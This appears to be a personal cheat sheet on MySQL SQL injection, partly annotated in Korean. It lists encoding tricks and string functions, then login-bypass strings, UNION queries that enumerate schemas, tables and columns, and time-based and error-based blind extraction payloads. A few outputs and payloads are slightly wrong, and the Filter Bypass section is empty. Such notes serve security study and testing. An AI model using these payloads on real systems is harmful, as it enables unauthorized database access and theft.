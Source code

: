 # SQL injection

### Express string   
select admin;   
select 'ad''min'; -> ad'min   
select 'ad' 'min'; -> admin   
select 0x6162; -> ab   
select char(0x61, 0x62); -> ab   
select 0b110000101100010; -> ab   
select concat(char(0x61),char(0x62)); -> ab   
select mid(@@version,12,1); -> n 가젯   
select unhex(unhex(36313632)); -> ab   
<hr>

### Useful Functions
* string   
  * substring(), substr(), mid() # select mid('admin',3,2); -> mi   
  * left() # select left('admin',2); -> ad
  * right() # select right('admin',2); -> in
  * concat() # select concat('ad','min'); -> admin
  * group_concat() # select group_concat('ad','min'); -> admin
  * instr() # select instr('hi\~\~! hello!!!','hello'); -> 7
  * length() # select length('hello!'); -> 6
  * lpad() # select lpad('admin',1,1)='a'; -> TRUE
  * rpad() # select rpad('admin',1,1)='a'; -> True
  * ord() # select ord('a'); -> 97
  * ascii() # select ascii('a'); -> 97
  * hex() # select hex('a'); -> 0x61
  * char() # select char(0x61); -> a
* typecast
  * convert() # select convert('admin',binary(1)); -> a
  * cast() # select cast('admin' as char(1)); -> a
* etc
  * version() # select version(); -> 5.7.31-0ubuntu0.16.04.1 
  * user() # select user(); -> user@localhost
  * schema(), database() #select schema(); -> database_name
  * sleep() # select sleep(3); -> 1 row in set (3.00 sec)
<hr>

### Basic SQL Injection
'   
' or '1==1'#   
' or '1'='1   
' or 1=1#
<hr>

### Union SQL Injection
union select schema_name from information_schema.schemata;   
union select table_name from information_schema.tables where table_schema="db_schema";   
union select table_name from information_schema.tables where table_schema=database();   
union select column_name from information_schema.columns where table_name="table_name";
<hr>

### Time-based SQL Injection
select 'a'='a' and sleep(1); # 1 row in set (1.00 sec)   
select 'a'='b' and sleep(1); # 1 row in set (0.00 sec)   
select 'a'='a' and benchmark(10000000,md5('a')); // 1 row in set (3.017 sec)   
select 'a'='b' and benchmark(10000000,md5('a')); // 1 row in set (1.565 sec)   
<hr>

### Error-based : Data extraction with error message
select * from users union select foo(); # FUNCTION test.foo does not exist   
select * from users where exp(~id); # DOUBLE value is out of range in 'exp(~\`test\`.\`users\`.\`id\`)'   
select * from users where extractvalue(1,concat(0x3a,version())); #XPATH systax error: '10.4.6-MariaDB'   
<hr>

### Error-based : Blind SQL Injection
서브 쿼리에서 2개 이상의 row를 리턴하면 에러가 발생하는 점을 이용해서 공격   
select if('a'='b',1,(select 1 union select 2)); # error -> Subquery returns more than 1 row
select if('a'='a',1,(select 1 union select 2)); ok   
select case when 1=1 then (select 1 union select 2) else 1 end; # error   
select case when 1=0 then (select 1 union select 2) else 1 end; # ok   

BIGINT overflow   
select ~0+(select 'a'='a'); # error -> ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '~0 + ('a' = 'a')'   
select ~0+(select 'a'='b'); # ok   

cot함수 인자로 False가 들어가면 에러가 발생하는 것을 이용해서 공격
select cot(1=0); # error (DOUBLE value is out of range in 'cot(1 = 0)')   
select cot(1=1); # ok   

order by 뒤에 숫자 늘리면서 에러로 컬럼 수 파악   
select * from users order by \[컬럼 개수\]; # 컬럼 개수 늘려가면서 에러로 개수 파악
select * from users order by 1; # ok   
select * from users order by 2; # ok   
select * from users order by 3; # error -> users 테이블의 컬럼 개수는 2개인 것   
<hr>

### Filter Bypass
